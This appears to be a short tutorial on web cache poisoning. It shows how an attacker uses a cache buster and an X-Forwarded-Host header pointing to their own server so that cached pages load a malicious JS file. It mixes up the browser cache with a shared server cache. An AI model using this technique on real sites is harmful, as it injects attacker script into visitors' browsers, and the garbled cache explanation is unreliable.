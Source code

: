 # Web cache poisoning

Web cache poisoning involves putting a payload into the cache of a user. For example, when a user's browser then retrieves a URL from the cache, the URL is poisoned and so will execute a payload.

In order to exploit this vulnerability, the attacker must find the name of (let’s say a js file) that the web app imports. To find a JS file that is leaked, the attacker can send a request to a URL with a cache buster *(a cache buster is a part of the URL that is unique. For example, adding a random parameter such as cb=123.)* Upon observing the response, a JS file that is imported by the web page may be found.

Let's say, for example, that the JS file located at */js/SecurePayloads/website.js* is leaked. Now the attacker knows the path to the legitimate JS file. This file is then stored in the cache by the user’s web browser.

**So how do we then change this js file to our own?**

Well, the short answer is that we don't. Instead we trick the browser into accessing a JavaScript file located at the same path, but on our server. To do this, we add in a header in the request called **X-Forwarded-Host**. This header is used to identify the original host of the request. What we will do is add this header into the request, and we will do so in the following format:

X-Forwarded-Host: Our-Own-Server/js/SecurePayloads/website.js

See what we did there? We kept the JS file that is imported the same, but we manipulated the request into importing one on our server instead of the legitimate one. Now what will happen is we will keep running this request until it is stored in the cache (Burp repeater comes in handy for doing this). How will we know when it is stored in the cache? Well the response header will include *X-Cache: hit*

Now, when the user loads the webpage it will come from their cache. Subsequently this means that the attacker’s payload will be run (so long as it remains in the cache)
